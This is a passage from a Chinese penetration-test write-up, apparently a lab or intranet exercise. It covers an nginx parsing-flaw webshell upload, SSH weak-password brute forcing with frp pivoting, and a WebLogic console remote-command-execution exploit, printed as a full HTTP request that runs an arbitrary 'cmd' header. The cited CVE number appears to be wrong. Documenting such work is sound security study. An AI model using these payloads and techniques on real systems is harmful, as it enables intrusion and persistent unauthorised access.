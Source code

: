 0x03 172.31.40.235 文件上传+nginx解析漏洞
=================================

扫描目录，发现文件上传页面：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5fde4729444de1e661d2054e7f701c14d6128906.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-05317058d4afe60fa7f06a3b890c98b140eba907.png)

刚开始以为这里只是一个简单的文件上传漏洞，结果上传的时候发现有白名单限制，没绕过去，就决定再搜集下信息。然后发现使用了nginx，并且版本为1.15.11，此时联想到了这个版本存在解析漏洞，在文件后面加上.php就会把这个文件解析成PHP文件

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9b01ead1dcf6f84fc0940749abcc6cbee12d0056.png)

**文件上传+Nginx解析漏洞利用：**

制作图片马上传，然后利用解析漏洞getshell

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bcdec3436b3e0016603ee0e46f163ffd9fd8f75f.png)

蚁剑连接：

webshell的为http://172.31.40.235:8080/upload/tiantian.jpg/.php

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-10a001b366ece81239177ef2d0015fc08a039d90.png)

0x04 172.31.35.129 ssh弱口令
=========================

刚开始打算从web侧进行突破，但是迟迟没有进展，就决定爆破一波弱口令，就发现了一个SSH弱口令账号test/123456

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d92af3da7df1dd95afc677c9114eebe31a150a70.png)

目前已经拿到了DMZ区的3个权限，准备搭个frp代理出来。因为拿到了172.31.35.129这台主机的SSH账号和密码，这样的话维权也比较方便，就在172.31.35.129上搭建了frp代理

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a5e5a2d2a5bcd4b7136f5d266339f0dfc0d55e79.png)

本地连上frp代理后，同样使用fscan对C段进行扫描，然后快速打点：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1075df88317a05d6e6e940c19348dbc98765ca35.png)

0x05 192.168.11.26 weblogic CVE-2020-12882命令执行
==============================================

发现192.168.11.26是weblogic，然后打了一波weblogic命令执行EXP，发现存在CVE-2020-12882漏洞

```php
GET /console/css/%252e%252e%252fconsolejndi.portal?test\_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String\[\]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String\[\]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String\[\]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1

Host: 192.168.11.26:7001

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

```